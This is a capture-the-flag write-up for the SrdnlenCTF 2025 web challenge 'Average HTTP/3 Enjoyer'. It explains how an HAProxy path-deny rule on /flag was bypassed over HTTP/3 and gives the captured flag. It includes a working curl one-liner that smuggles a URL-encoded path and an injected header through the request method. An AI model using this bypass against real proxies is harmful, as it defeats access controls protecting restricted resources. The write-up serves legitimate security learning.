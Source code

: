 
# 🌐 Average HTTP/3 Enjoyer


![Challenge Presentation](/images/SrdnlenCTF-2025/AverageHTTP3/challenge_presentation.png "Challenge Presentation")

## 📊 Challenge Overview
>
>| Category | Details | Additional Info |
>|----------|---------|-----------------|
>| 🏆 Event | SrdlenCTF - 2025 | [Event Link](https://ctf.srdnlen.it/challenges#challenge-21) |
>| 🔰 Category | Web | 🌐 |
>| 💎 Points | 405 | Out of 500 total |
>| ⭐ Difficulty | 🟡 Medium | Personal Rating: 3/10 |
>| 👤 Author | pysu | [Profile]() |
>| 🎮 Solves | 23 | XX% solve rate |
>| 📅 Date | 19-01-2025 | SrdlenCTF - 2025 Day X |
>| 🦾 Solved By | aquila2 | Team: Team Aetruria |

## 📝 Challenge Information
>HTTP/3 is just the best version of HTTP, wait a few years, until setting up an HTTP/3 server will not be a pain, and you’ll see. I hid a secret on /flag, you can only get it if you become a real HTTP/3 enjoyer.  NOTE: This challenge uses only HTTP/3, browsers are a bit hesitant in using it by default, so you’ll have to use explicit arguments to do so.  In chrome you can do the following:  
>chrome --enable-quic --origin-to-force-quic-on=enjoyer.challs.ctf.srdnlen.it

## 🎯 Challenge Files & Infrastructure

### Provided Files
>Files:
>- [:(far fa-file-archive fa-fw): Attached Files](https://drive.google.com/file/d/1KcEalyyC9hSqsCTTvd0OpFOcBRPjZt2v/view?usp=drive_link)

# 🔍 Initial Analysis

## First Steps
> After an initial analysis and some research, I tried making a request with `curl` using the `--http3` option:
>
> ```bash
> curl --http3 https://enjoyer.challs.ctf.srdnlen.it
> ```
> Since the site was not reachable without `HTTP/3` support, I proceeded to access the `/flag` route using `curl`:
> 
> ```bash
> curl --http3 https://enjoyer.challs.ctf.srdnlen.it/flag
> ```
> Receiving a response with a `403 Unauthorized` error:
> 
> ![Forbidden](/images/SrdnlenCTF-2025/AverageHTTP3/forbidden.png "Forbidden")
> 
> Then I noticed that this was being blocked through the server's `proxy rules`:
> 
> ```
>  acl restricted_flag path_sub,url_dec -m sub -i i /flag
>  http-request deny if restricted_flag
> ```
> 
> Through an `HAProxy` proxy. So I started doing some research online to find an effective `bypass` for this proxy rule.


## 🔬 Vulnerability Analysis
### Potential Vulnerabilities
>- [x] 403 Bypass
>- [x] Proxy Rule Bypass

# 🎯 Solution Path

## Exploitation Steps
### Initial setup
> After searching online, as mentioned earlier, I found the page on [StackOvreflow](https://stackoverflow.com/questions/63689649/make-an-http-request-without-a-forward-slash/76882066#76882066), from which I figured out how to craft the exploit. The trick was to `URL-encode` the slash (`/`) in a special syntax, but I also tried using the `--path-as-is` option in curl, but it didn't work. After that, I needed to craft any `header` to bypass the rule.
>
### Exploitation
> With the following exploit, I was able to obtain the flag:
>
> ```bash
>   echo "\n"; curl --insecure -X "$(echo -en 'GET %2fflag 1/\r\nX-Ignore-Injection:')" https://enjoyer.challs.ctf.srdnlen.it --http3
>```
>
### Flag capture
>  
>   ![Manual Flag](/images/SrdnlenCTF-2025/AverageHTTP3/manual_flag.png "Manual Flag")

# 🛠️ Exploitation Process
## Approach
> I wasn't able to write the automatic exploit in Python due to issues with `HTTP/3`. I also tried using `httpx`, but it didn't work. I even attempted using `bash script`, but without success.
> 
> - [:(far fa-file-archive fa-fw): None]()

# 🚩 Flag Capture
>{{< admonition danger "Flag" >}}
{{< typeit tag=h4 >}}
srdnlen{you_found_the_:path_for_becoming_a_real_http3_enjoyer}
{{< /typeit >}}
>{{< /admonition >}}
>
## Proof of Execution
> ![Automated Flag](/images/SrdnlenCTF-2025/AverageHTTP3/manual_flag.png "Automated Flag")
>*Screenshot of successful exploitation*

# 🔧 Tools Used
>| Tool | Purpose |
>|------|---------|
>| Curl | Http3 request |

# 💡 Key Learnings
## New Knowledge
>
> I learned about HTTP Request Smuggling and Header Smuggling from this challenge, but in the end, it was a bypass of the proxy rules through encoding with the addition of a crafted header field.
> 
## Skills Improved
>- [ ] Binary Exploitation
>- [ ] Reverse Engineering
>- [x] Web Exploitation
>- [ ] Cryptography
>- [ ] Forensics
>- [ ] OSINT
>- [ ] Miscellaneous

# 📚 References & Resources
## Learning Resources
>- https://hacktricks.boitatech.com.br/pentesting/pentesting-web/403-and-401-bypasses
>- https://stackoverflow.com/questions/63689649/make-an-http-request-without-a-forward-slash/76882066#76882066
---
# 📊 Final Statistics
| Metric | Value | Notes |
|--------|--------|-------|
| Time to Solve | 00:30 | From start to flag |
| Global Ranking | 22/1572 | Challenge ranking |
| Points Earned | 405 | Team contribution |

*Created: 19-01-2025 • Last Modified: 19-01-2025*
*Author: mH4ck3r0n3 • Team: Team Aetruria*
